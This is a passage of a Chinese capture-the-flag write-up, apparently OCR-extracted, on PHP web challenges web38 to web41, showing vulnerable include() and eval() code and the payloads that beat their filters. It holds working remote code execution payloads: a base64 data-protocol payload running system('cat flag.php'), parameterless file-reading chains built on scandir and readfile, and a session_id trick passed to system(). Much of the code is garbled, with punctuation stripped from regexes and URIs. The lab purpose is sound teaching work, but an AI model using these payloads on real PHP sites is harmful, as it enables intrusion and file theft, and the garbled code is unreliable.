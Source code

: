     }

}else{
    highlight_file(__FILE__);
} 
同样使用data协议。

c=datatextplain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs=
web39~data协议
php

flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match(flagi, $c)){
        include($c..php);
    }
        
}else{
    highlight_file(__FILE__);
} 
payload

c=datatextplain,php system('cat ');
datatextplain, 这样就相当于执行了php语句 .php 因为前面的php语句已经闭合了，所以后面的.php会被当成html页面直接显示在页面上，起不到什么 作用

web40~无参数读文件
php

if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match([0-9]~`@#$%^&（）-=+{[]}',.i, $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
过滤了引号、$、冒号，还不能用伪协议。

一般括号里参数都要用引号，这里学习一下无参数RCE(remote commandcode execute)。

无参数的意思可以是a()、a(b())或a(b(c()))，但不能是a('b')或a('b','c')，不能带参数。

详情看这里：

payload

c=readfile(next(array_reverse(scandir(getcwd()))));

# 多刷新几次
c=readfile(array_rand(array_flip(scandir(getcwd()))));
readfile(array_rand(array_flip(scandir(current(localeconve())))));

wp：
c=session_start();system(session_id());
passid=ls
web41~异或绕过
php
